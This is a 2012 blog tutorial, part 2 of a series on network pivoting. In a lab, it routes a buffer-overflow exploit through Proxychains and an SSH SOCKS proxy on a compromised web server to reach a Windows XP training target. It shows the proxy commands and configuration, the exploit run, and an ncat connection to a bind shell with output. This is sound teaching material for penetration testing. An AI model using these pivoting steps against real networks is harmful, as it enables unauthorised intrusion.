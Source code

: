 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 2: Proxychains"
date: 2012-10-10 18:10:26 -0400
comments: true
categories: howto hacking
redirect_from: /2012/10/introduction-to-pivoting-part-2.html
---
```


This is part 2 of a series of posts on pivoting techniques. In part 1, we used SSH port forwarding to pivot our exploit and obtain remote access to our Windows XP machine. In this article, we'll be performing the same attack, but instead of using SSH local port forwarding, we'll use Proxychains and an SSH SOCKS proxy.

<!--more-->

Proxychains sends connections made by applications through a proxy specified in the proxychains.conf file. By default, it uses Tor's SOCKS port 9050. Proxychains 4 can be downloaded from [https://github.com/haad/proxychains](https://github.com/haad/proxychains).

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-10/01.jpg)

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine. 

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).


### The attack

To use Proxychains, we need to connect to the web server via SSH and set it as a SOCKS proxy. This is easily accomplished with the -D option in SSH. This is the command we would run on our machine: 

```
ssh -D 127.0.0.1:8888 webmaster@192.168.81.181
```

We would now have port 8888 listening on our machine, and any connection sent to that port will be proxied over to the web server, and the web server will make the connection on our behalf.
Proxychains 4 allows us to specify a configuration file to use, so we'll create a simple one that basically tells it to use port 8888 on our machine as the proxy: 

```
strict_chain
quiet_mode
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
localnet 127.0.0.0/255.0.0.0
 
[ProxyList]
socks4  127.0.0.1 8888
```

We'll save this as pivot.conf. We'll use the same exploit as before, which should open a bind shell on port 4444 on our Windows XP machine. Instead of running the exploit directly, we pass it as an argument to Proxychains: 

```
# proxychains4 -f ~/pivot.conf /usr/bin/python exploit.py 192.168.63.142 10000
[proxychains] config file found: /root/pivot.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
[+] sending payload of length 1479
[+] done
#
```

The -f option allows us to tell Proxychains which configuration file we want to use; in this case, pivot.conf. Notice that when we executed exploit.py, we specified the actual IP address of the target, and not 127.0.0.1, like we did in part 1. Proxychains makes it look like the target is directly accessible to us.

Now that the exploit has been executed, we can attempt to connect to the target on port 4444 and obtain our shell. In this case, I'll use ncat 

```
# proxychains4 -f ~/pivot.conf ncat -v 192.168.63.142 4444
[proxychains] config file found: /root/pivot.conf
[proxychains] preloading /usr/local/lib/libproxychains4.so
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:4444.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've successfully obtained a remote shell on a machine on the internal network by pivoting with Proxychains. So far we've required SSH in order to pivot our attack. In part 3, we'll use ncat's client-to-client and listener-to-listener relays to perform our pivoting; a technique that does not require SSH. 
